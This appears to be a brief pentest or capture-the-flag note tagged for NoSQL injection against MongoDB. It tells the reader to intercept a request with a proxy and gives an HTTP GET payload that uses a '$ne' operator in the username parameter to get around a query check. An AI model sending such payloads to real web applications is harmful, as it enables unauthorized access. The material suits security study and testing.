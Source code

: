 #sqli #mongo

Intercept with a proxy and inject
```http
GET /search?username[$ne]=hello&role=admin HTTP/1.1
```